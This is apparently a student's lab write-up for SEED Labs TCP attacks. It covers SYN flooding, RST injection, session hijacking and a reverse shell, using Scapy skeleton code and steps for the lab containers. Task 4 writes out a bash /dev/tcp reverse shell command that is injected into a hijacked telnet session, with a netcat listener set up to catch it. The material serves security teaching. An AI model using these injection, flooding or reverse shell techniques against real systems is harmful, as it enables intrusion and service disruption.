

# TCP Attacks Lab

## Summary

This lab involves various TCP attacks, including SYN Flooding, TCP RST attacks, TCP Session Hijacking, and creating a Reverse Shell. Each task requires specific steps and screenshots to demonstrate the attacks and their mitigation techniques.

## Lab Setup

1. **Download the Lab Setup:**
   - [Lab Setup ZIP File](https://seedsecuritylabs.org/Labs_20.04/Networking/TCP_Attacks/)
   - [Docker Manual](https://github.com/seed-labs/seed-labs/blob/master/manuals/docker/SEEDManual-Container.md)

2. **Ensure Docker is Set Up:**
   - Follow the instructions in section 2.1 of the [Lab PDF](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf) to set up your environment.


## Q1 Task 1: SYN Flooding Attack

### Overview
A SYN Flood attack is a Denial of Service (DoS) attack where attackers send numerous SYN requests to a victim's TCP port, without completing the 3-way handshake. This overwhelms the victim's queue for half-open connections, causing legitimate connection attempts to fail.

### Steps

1. **Check Current SYN Queue Size**

    ```bash
    sysctl -q net.ipv4.tcp_max_syn_backlog
    ```

    Output:
    ```bash
    net.ipv4.tcp_max_syn_backlog = 128
    ```

2. **Monitor Queue Usage**

    ```bash
    netstat -nat
    ```

    **Explanation:** Look for connections in SYN-RECV state. These are half-open connections. When the queue is full, new connections will be dropped.

3. **Configure SYN Cookie Countermeasure**

    - **Check SYN Cookie Status**

        ```bash
        sudo sysctl -a | grep syncookies
        ```

    - **Enable SYN Cookies**

        ```bash
        sudo sysctl -w net.ipv4.tcp_syncookies=1
        ```

    - **Disable SYN Cookies**

        ```bash
        sudo sysctl -w net.ipv4.tcp_syncookies=0
        ```

    **Note:** These commands may not work in a containerized environment. Update `docker-compose.yml` if needed:

    ```yaml
    sysctls:
      - net.ipv4.tcp_syncookies=0
    ```

4. **Launch the SYN Flood Attack**

    - **Compile the Attack Code**

        ```bash
        gcc -o synflood synflood.c
        ```

    - **Run the Attack**

        ```bash
        synflood 10.9.0.5 23
        ```

5. **Observe and Compare**

    - **Before Attack:** Use `netstat -nat` to check the initial state.
    - **During Attack:** Observe the queue state and connection attempts.

    **Telnet Testing:**
    From another machine, attempt to telnet to the target during the attack.

    **Expected Observation:** Telnet connection may fail if the SYN queue is full.

### Submission

- **Without SYN Cookies:**
    - Screenshot: `TCP Attack without the SYN cookie mechanism`
    

- **With SYN Cookies:**
    - Screenshot: `TCP Attack with the SYN cookie mechanism`
    
---

## Q2 Task 2: TCP RST Attacks on Telnet Connections

### Overview
A TCP RST attack involves sending a forged RST packet to terminate an active TCP connection between two victims. This can disrupt ongoing communications, such as a telnet session.

### Steps

1. **Prepare Scapy Code**

    Skeleton Code:
    ```python
    #!/usr/bin/env python3
    from scapy.all import *
    ip = IP(src="@@@@", dst="@@@@")
    tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
    pkt = ip/tcp
    ls(pkt)
    send(pkt, verbose=0)
    ```

2. **Capture Required Values**

    Use Wireshark to capture and identify values for `src`, `dst`, `sport`, `dport`, `seq`, and `ack`.

3. **Execute Attack**

    - **Run the Attack:**

4. **Observe and Capture**

    **Wireshark Frames:**
    Capture the SEQ/ACK numbers from the target communication and the RST packet to ensure correct values are used.

5. **Optional - Automate the Attack**

    **Bonus:** Automate using sniffing-and-spoofing techniques in Scapy.

### Submission

- **Python Code:**
    - Screenshot: `Q2 Python_Scapy code`
            

- **Attack Screenshots:**
    - Wireshark output: `Q2 TCP RST ATTACK Wireshark 1` and `Q2 TCP RST ATTACK Wireshark 2`
    
    

- **Bonus PDF (Optional):**
    - Document automation process and verification.
    
    
    
    [Clearer image of Bonus Q2](images/Bonus%20Q2.pdf) 
---

## Q3 Task 3: TCP Session Hijacking

### Overview
TCP Session Hijacking involves injecting malicious content into an existing TCP session. For example, attackers can send commands to a telnet session.

### Steps

1. **Prepare Scapy Code**

    Skeleton Code:
    ```python
    #!/usr/bin/env python3
    from scapy.all import *
    ip = IP(src="@@@@", dst="@@@@")
    tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
    data = "@@@@"
    pkt = ip/tcp/data
    ls(pkt)
    send(pkt, verbose=0)
    ```

2. **Capture Required Values**

    Use Wireshark to capture SEQ/ACK numbers from the active session.

3. **Execute Attack**

    - **Run the Attack:**

4. **Observe and Capture**

    **Wireshark Frames:**
    Capture the SEQ/ACK numbers and injected code to verify the attack.

5. **Optional - Automate the Attack**

    **Bonus:** Automate using sniffing-and-spoofing techniques in Scapy.

### Submission

- **Python Code:**
    - Screenshot: `Q3 Python_Scapy code`
    

- **Attack Screenshots:**
    - Wireshark output: 
    `Q3 TCP Session Hijacking Attack before` 
    
    
    
    `Q3 TCP Session Hijacking Attack after`

    

- **Bonus PDF (Optional):**
    - Document automation process and verification.
    
    
    
    [Clearer image of Bonus Q2](images/Bonus_Q3.pdf)
---

## Q4 Task 4: Creating Reverse Shell using TCP Session Hijacking

### Overview
A reverse shell allows attackers to run commands on a compromised machine by injecting a reverse shell command into an existing session.

### Steps

1. **Set Up Netcat on Attacker Machine**

    ```bash
    nc -lvp 9090
    ```

2. **Prepare Scapy Code**

    Skeleton Code:
    ```python
    #!/usr/bin/env python3
    from scapy.all import *
    ip = IP(src="@@@@", dst="@@@@")
    tcp = TCP(sport=@@@@, dport=@@@@, flags="@@@@", seq=@@@@, ack=@@@@)
    data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1"
    pkt = ip/tcp/data
    ls(pkt)
    send(pkt, verbose=0)
    ```

3. **Capture Required Values**

    Use Wireshark to capture SEQ/ACK numbers and inject the reverse shell command.

4. **Execute Attack**

    - **Run the Attack:**

        ```python
        # Replace placeholders with actual values
        ```

5. **Observe and Capture**

    **Reverse Shell Connection:**
    Verify that the attacker machine receives a shell connection.

    **Expected Output:** The attacker machine should show a connected shell.

### Submission

- **Python Code:**
    - Screenshot: `Q4 Python_Scapy code`
    

- **Attack Screenshots:**
    - Revese Shell output: 
    `Q4_reverse_shell` 
    
    